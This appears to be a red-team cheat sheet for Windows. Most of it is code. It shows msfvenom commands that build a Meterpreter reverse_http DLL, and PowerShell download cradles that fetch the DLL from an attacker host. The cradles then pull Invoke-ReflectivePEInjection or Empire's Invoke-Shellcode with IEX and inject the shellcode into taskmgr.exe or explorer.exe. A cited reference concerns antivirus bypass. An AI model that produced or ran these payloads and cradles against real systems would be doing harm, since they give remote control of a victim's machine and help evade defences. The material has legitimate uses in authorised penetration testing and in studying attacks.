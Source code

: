 # Windows

## 01 - Powershell Scripts

### 1.1 - Reflective DLL Injection

#### 1.1.1 - Simple Reflective DLL Injection

```
$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 exitfunc=thread -f dll -o shellcode.dll

$ sudo python -m http.server 80
```

`$ cat download-cradle.ps1`

---

```powershell
Start-Process -WindowStyle hidden -FilePath taskmgr.exe

$bytes = ((New-Object Net.WebClient).DownloadData("http://<IP>/shellcode.dll"))

IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/charnim/Invoke-ReflectivePEInjection.ps1/main/Invoke-ReflectivePEInjection.ps1"))

$procid = (Get-Process -Name taskmgr).Id

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

#### 1.1.2 - Reflective DLL Injection with encoded base64 shellcode DLL

TODO: Figure out the base64 encoding problem with DLL files

```
$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 EXITFUNC=thread -f dll -o shellcode.dll

$ pwsh

PS /home/user> $file = 'shellcode.bin'

PS /home/user> [byte[]] $raw_bytes = [IO.File]::ReadAllBytes($file)

PS /home/user> $encoded = [Convert]::ToBase64String($raw_bytes)

PS /home/user> [IO.File]::WriteAllBytes('shellcode-encodedb64.txt', $encoded)

PS /home/user> exit

$ sudo python -m http.server 80
```

`$ cat download-cradle.ps1`

---

```powershell
Start-Process -WindowStyle hidden -FilePath taskmgr.exe  
  
$bytes = ((New-Object Net.WebClient).DownloadData("http://<IP>/shellcode-encodedb64.txt"))  
  
$decoded = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($bytes))  
  
IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/charnim/Invoke-ReflectivePEInjection.ps1/main/Invoke-ReflectivePEInjection.ps1"))  
  
$procid = (Get-Process -Name taskmgr).Id  
  
Invoke-ReflectivePEInjection -PEBytes $decoded -ProcId $procid
```

### 1.2 - Invoke-Shellcode

```powershell
IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/code_execution/Invoke-Shellcode.ps1"))

$procid = (Get-Process -Name explorer).Id

Invoke-Shellcode -ProcessId $procid -Shellcode @(<ps1_shellcode_format>)
```

---
## References

- [Invoke-ReflectivePEInjection](https://github.com/charnim/Invoke-ReflectivePEInjection.ps1)

- [Adamn Chester (XPN) YouTube Video: Bypass AV with Invoke-ReflectivePEInjection](https://www.youtube.com/watch?v=byMBx4q-vYo)

- [sRDI](https://github.com/monoxgas/sRDI)